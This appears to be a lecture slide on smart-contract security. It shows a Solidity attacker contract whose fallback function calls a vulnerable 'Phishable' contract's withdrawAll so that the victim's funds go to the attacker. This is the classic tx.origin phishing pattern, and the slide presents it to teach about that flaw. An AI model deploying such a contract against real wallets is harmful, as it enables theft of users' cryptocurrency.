

# Attacker Contract
contract PhishableAttack {
  Phishable phishableContract;
  address payable attacker;
  constructor (Phishable _phishableContract,
               address payable _attackerAddress) {
    phishableContract = _phishableContract;
    attacker = _attackerAddress;
  }
  fallback() external payable {
    phishableContract.withdrawAll(attacker);
  }
}
victim’s transfer calls fallback function …
which calls victim’s withdrawal function. ..

60